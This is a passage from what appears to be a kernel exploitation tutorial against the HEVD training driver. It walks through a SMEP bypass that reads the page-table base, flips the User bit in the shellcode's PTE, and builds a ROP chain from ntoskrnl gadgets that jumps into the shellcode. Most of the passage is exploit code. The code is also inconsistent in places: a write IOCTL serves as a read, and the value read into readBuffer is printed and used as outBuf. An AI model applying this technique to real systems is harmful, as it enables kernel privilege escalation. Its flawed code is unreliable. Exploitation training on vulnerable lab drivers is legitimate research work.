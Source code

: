 We need the PteBase address so we'll use our read primitive to parse the address from the function's code.  
Because it's an unexported function, we can either use an hardcoded pre-determined offset or find it dynamically using a pattern-searching method. I'll use an hardcoded offset this time:

```cpp
// Add 0x13 to read only the PTE base
uintptr_t readAddress = (uintptr_t)ntoskrnlBase + MiGetPteAddressOffset + 0x13;
arbReadBuf.readAddress = readAddress;
arbReadBuf.outBuf = &readBuffer;

printf("[+] Getting PteBase value\n");
bResult = DeviceIoControl(hDevice, HEVD_IOCTL_ARBITRARY_WRITE, &arbReadBuf, sizeof(arbReadBuf), NULL, 0, &junk, (LPOVERLAPPED)NULL);

printf("[*] Got PteBase: 0x%llx\n", outBuf);
ULONGLONG pteBase = outBuf;
uintptr_t shellcodePte = getPteAddress(shellcode, pteBase);
```

Now that we got the PTE address of our shellcode we need to read its data:
```cpp
arbReadBuf.readAddress = shellcodePte;
arbReadBuf.outBuf = &readBuffer;
bResult = DeviceIoControl(hDevice, HEVD_IOCTL_ARBITRARY_WRITE, &arbReadBuf, sizeof(arbReadBuf), NULL, 0, &junk, (LPOVERLAPPED)NULL);

// Reset the User bit to zero - now it's kernel
ULONGLONG wantedPteValue = readBuffer & ~0x4;
```

Now we know what data we want to write (wantedPteValue) and where to write it to (shellcodePte). The actual writing will happen in the rop chain because we don't have an arbitrary write primitive.  
<br/>

## Putting it all together
The rop chain should do this:
```x86asm
pop rcx             ; rcx = shellcode's PTE address
pop rax             ; rax = wanted pte value
mov [rcx], rax      ; overwrite Owner bit in the PTE
ret                 ; return to shellcode
```
So in our code it's like this:
```cpp
// Prepare the ROP chain
*(ULONGLONG*)(inBuf + 568) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + POP_RCX);
*(ULONGLONG*)(inBuf + 576) = (ULONGLONG)(shellcodePte);
*(ULONGLONG*)(inBuf + 584) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + POP_RAX);
*(ULONGLONG*)(inBuf + 592) = (ULONGLONG)(wantedPteValue);
*(ULONGLONG*)(inBuf + 600) = (ULONGLONG)((ULONGLONG)ntoskrnlBase + MOV_RAX_TO_PTR_RCX);
* (ULONGLONG*)(inBuf + 608) = (ULONGLONG)(shellcode);
```
